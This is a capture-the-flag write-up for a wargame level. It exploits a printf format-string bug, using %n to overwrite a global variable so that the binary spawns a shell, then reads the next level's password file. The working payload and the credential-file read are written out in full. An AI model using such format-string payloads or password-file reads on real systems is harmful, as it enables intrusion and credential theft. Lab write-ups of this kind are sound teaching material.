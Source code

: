 It's a simple one (when you get it). We have a binary file. When you run the program, you can write anything and it's printed back to you.
We have two functions :  `main` and `v`. The `main` function just calls `v`. 
The `v` function is more interesting, there's a syscall to `/bin/sh`. We also see a call to printf.
And that printf is not protected: like `printf(buffer)`, instead of `printf("%s", buffer)`. So it's an issue we can exploit. 

When we disassemble the code in GDB, we can see that the content of `0x804988c` is mov in `$eax` register. Then, the content of `eax` is compared with 64.
If it's equal to 64, we get the syscall.
In order to put 64 at `0x804988c`, we can exploit printf : indeed, printf is going so search on the stack for parameters. We can use the flag `n` to write everything you want at the wanted address.

The first step is to know where is the string on the stack : `AAAA%p%p%p%p%p%p%p%p%p%p`.  
We got a thing like this : 
```
AAAA0x2000xb7fd1ac00xb7ff37d00x414141410x702570250x70257025
                             ^^^^^^^^^^
```
Like that, we know that the fourth parameter is the start of the buffer. 

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "%4$p"' | ./level3 
�0x804988c
```

By using %n, we can write the number of written bytes so far by printf.

```bash
python -c 'print "\x08\x04\x98\x8c"[::-1] + "%4$n"' | ./level3 # will write 0x4 to 0x804988c, because 4 bytes were written before the %n
```

So, all we need to do is make sure 64 bytes (including the 4 address bytes) were written before the %n!

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60p%4$n"' | ./level3 
�                                                       0x200
Wait what?!
```

Now we just write this payload to a file and use cat to insert our commands just after.

```bash
python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60p%4$n"' > /tmp/3
cat /tmp/3 - | ./level3
�                                                       0x200
Wait what?!
whoami
level4
cat /home/user/level4/.pass
``` 
And we now we get the flag ! 
